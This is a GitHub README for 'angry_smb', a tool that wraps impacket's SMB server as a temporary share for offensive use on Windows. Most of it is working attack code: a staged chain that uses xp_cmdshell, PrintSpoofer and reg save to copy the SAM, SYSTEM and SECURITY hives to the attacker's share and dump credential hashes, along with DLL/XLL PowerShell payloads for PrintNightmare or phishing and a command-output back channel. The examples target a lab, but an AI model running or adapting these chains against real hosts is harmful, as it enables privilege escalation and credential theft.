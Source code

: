 # angry_smb
Use impackets simple smb server as a context manager!

Angry SMB offers a neat way to abstract running an SMB server in a tidy context manager usimg tmp files which cleans up after itself. Additionally it offers an object oriented way to handle files within the share as well as files we expect to be in the share at some point in the future.

# Usage
The following code snippet shows a multi staged attack to secretsdump from a mssql shell in Game Of Active Directory. This showcases most of the neat features Angry SMB has to offer.

```python3
# This is an example how to use the temporary SMB server to dump the secrets from an impacket-mssqlclient shell
# the environment used was GOAD with the sql_svc user on 192.168.56.23 (no defender)

import logging
from tempsmbserver import TempSMB

from impacket.examples.secretsdump import LocalOperations, SAMHashes, LSASecrets

# using the Temporary SMB server as a context manager
with TempSMB(local_ip="192.168.56.106") as smb:
    # creating future objects which we expect to get
    # those are available as objects but are not real files - those will be available after the successful attack
    sam = smb.future_file(friendly_name="sam")
    system = smb.future_file(friendly_name="system")
    security = smb.future_file(friendly_name="security")

    # creating the registry commands as a powershell file in the smb server
    # the actual file handling is fully abstracted in the TempSMB and SMBFile objects
    sam_dump_payload = f"reg save hklm\\sam {sam.remote_path}\nreg save hklm\\security {security.remote_path}\nreg save hklm\\system {system.remote_path}"
    sam_dump_file = smb.create_temp_file(sam_dump_payload, ext=".ps1")

    # copying the printspoofer executable into the temporary smb server and creating a powershell command to run it
    # instead of defining a file by its content an existing file is copied and shared
    # again all file handling is abstraced into the objects
    print_spoofer_file = smb.create_temp_file_from_file("/home/kali/potatos/PrintSpoofer64.exe")
    stager = f'{print_spoofer_file.remote_path} -c "powershell.exe -ep bypass {sam_dump_file.remote_path}"'
    stager_file = smb.create_temp_file(stager, ext=".ps1")

    # creating the xp_cmdshell command to be run in the impacket-mssqlclient shell
    print("run this on your mssql shell:")
    print(f"xp_cmdshell powershell.exe -ep bypass {stager_file.remote_path}")

    # awaiting the future files to actually be written to the smb server
    # this blocks execution until all the awaited files are present in the share
    # file objects created via the TempSMB methods can be accessed by key on the TempSMB object if it has a friendly name
    sam.await_me()
    system.await_me()
    security.await_me()
    print(f'SAM received at {smb["sam"].local_path} - {smb["sam"].exists()}')
    print(f'SYSTEM received at {smb["system"].local_path} - {system.exists()}')
    print(f'SECURITY received at {security.local_path} - {security.exists()}')

    # basic secretsdump code with impacket
    logging.getLogger().setLevel(logging.INFO)

    local_ops = LocalOperations(system.local_path)
    boot_key = local_ops.getBootKey()
    sam_hashes = SAMHashes(sam.local_path, boot_key)
    lsa_secrets = LSASecrets(security.local_path, boot_key)
    print("="*10+"SAM"+"="*10)
    sam_hashes.dump()
    print("=" * 10 + "CHACHED CREDS" + "=" * 10)
    lsa_secrets.dumpCachedHashes()
    print("=" * 10 + "SECRETS" + "=" * 10)
    # commented out for cleaner terminal output
    #lsa_secrets.dumpSecrets()

    sam_hashes.finish()
    lsa_secrets.finish()


```


Fortunately there are also some payload classes which abstract some use cases - the next code snippet does the same as the previous

```python3
from payload import SamDumpPowershell, PrintSpoofer, PowershellRunner
from tempsmbserver import TempSMB
from stolen_from_impacket.secretsdump import dump

local_ip = "192.168.56.106"
print_spoofer = True

with TempSMB(local_ip=local_ip) as smb:
    sam_dump_payload = SamDumpPowershell(smb)
    if print_spoofer:
        print_spoofer_file = smb.create_temp_file_from_file("/home/kali/potatos/PrintSpoofer64.exe")
        print_spoofer_payload = PrintSpoofer(smb, input_files=[print_spoofer_file, sam_dump_payload.file])
        runner_payload = PowershellRunner(smb, [print_spoofer_payload.file])
    else:
        runner_payload = PowershellRunner(smb, [sam_dump_payload.file])

    print("ANGRY SMB READY:")
    print(f"xp_cmdshell {runner_payload.payload}")
    sam_dump_payload.await_output_files()

    print("="*10 + "secretsdump" + "="*10)
    dump(sam_dump_payload.sam.local_path, sam_dump_payload.system.local_path, sam_dump_payload.security.local_path)


```

There are also payload classes to execute Powershell from a dll or xll e.g. for Printnightmare or xll phishing attacks. The next code snipped also implements a back channel which writes the command output to an output file in the share. Please refer to the examples folder.

```python3
from payload import CRunPowershell
from tempsmbserver import TempSMB

local_ip = "192.168.56.106"


with TempSMB(local_ip=local_ip) as smb:
    powershell_payload = "net user skid IHaveNotReadTheCode /add; net user skid /delete;"
    return_channel = smb.future_file(ext=".out")
    powershell_file = smb.create_temp_file(f"{powershell_payload} > {return_channel.remote_path}", ext=".ps1")
    dll_payload = CRunPowershell(smb, [powershell_file])
    print(dll_payload.file.remote_path.replace("/", "\\"))
    return_channel.await_me()
    return_channel.print(cringe_utf_16=True)

```
***
# IMPORTANT!!
The examples folder is NOT meant to provide ready to use tools but act as an inspiration and to showcase the capabilities of Angry SMB!! Ready to use tools might or might not come in the future - I wouldnt bet on it though!!
***
# Requirements
- impacket
- mingw

both should be available on kali

***
# Documentation (kinda)
## TempSMB
### create_temp_file(content, friendly_name, ext)
Creates a new file in the share and returns an SMBFile object
### create_temp_file_from_file(existing_file, friendly_name)
Copies an existing file into the share and returns an SMBFile object
### future_file(ext, friendly_name)
Creates an SMBFile object for a file which doesnt exist yet and returns it
### connection_string()
Returns the location of the share as seen from remote
## SMBFile
### exists()
Checks if the file exists on the file system
### await_me(timeout)
Blocks execution until the file exists on the file system or until timeout
### print(cringe_utf_16)
Prints the content of the file - has some rudimentary UTF-16 cringe handling for bytes which break the output

## Payloads
Refer to the examples folder.

  
